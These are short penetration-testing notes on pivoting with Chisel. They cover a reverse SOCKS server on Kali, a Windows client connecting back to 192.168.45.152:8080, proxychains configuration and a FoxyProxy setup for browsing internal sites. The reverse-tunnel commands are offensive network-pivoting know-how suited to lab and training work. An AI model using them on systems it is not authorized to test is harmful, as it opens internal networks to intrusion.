 # Chisel

```bash
# on Kali

chisel server --socks5 --reverse

# make sure that the /etc/proxychains4.conf final line is:
socks5 127.0.0.1 1080

```

On the pivot (Windows)

```cmd
# grab the fingerprint from the chisel server on kali when it starts

chisel.exe client --fingerprint W4fR5CxHtK6hB6P0KsDfsMPxmTBqEJ8cD+2ml17Z5jY= 192.168.45.152:8080 R:socks

```

You need to run all commands with proxychains in front!

To browse websites internal

use foxyproxy and create a new proxy

![alt text](/Assets/chisel.png)

then switch it on and then key in the internal ip address to browse

Also just watch John Hammond's great video: https://www.youtube.com/watch?v=pbR_BNSOaMk
